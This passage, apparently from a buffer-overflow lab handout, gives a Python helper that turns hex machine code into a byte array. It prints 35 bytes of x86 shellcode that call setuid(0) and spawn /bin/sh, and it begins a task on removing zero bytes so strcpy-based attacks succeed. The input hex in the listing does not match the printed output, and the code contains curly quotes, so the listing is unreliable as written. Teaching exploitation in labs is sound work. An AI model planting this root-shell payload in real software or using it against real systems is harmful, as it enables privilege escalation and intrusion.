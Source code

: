 In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program. We usually store the machine code in an array, but converting the machine code printed above to the array assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this process many times in the lab. We wrote the following Python code to help this process. Just copy whatever you get from the xxd command (only the shellcode part) and paste it to the following code, between the lines marked by """. The code can be downloaded from the lab’s website. 

Listing 2:convert.py

```
#!/usr/bin/env python
# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd
31c050682f2f7368682f62696e89e3505389e
d231c0b00bcd
"""

sh = ori_sh.replace("\n", "")

length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + ' "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
        s += '"\n' + ’ "’
s += '"\n' + ").encode('latin-1')"
print(s)
```

The _convert.py_ program will print out the following Python code that you can include in your attack code. It stores the shellcode in a Python array. 

```
$ ./convert.py
Length of the shellcode: 35
shellcode= (
"\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
"\x0b\xcd\x80"
).encode('latin-1')
```

### 2.2 Task 1.b. Eliminating Zeros from the Code

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string copy, such as the _strcpy()_ function. For these string copy functions, zero is considered as the end of the string. Therefore, if we have a zero in the middle of a shellcode, string copy will not be able to copy anything after the zero from this shellcode to the target buffer, so the attack will not be able to succeed. 
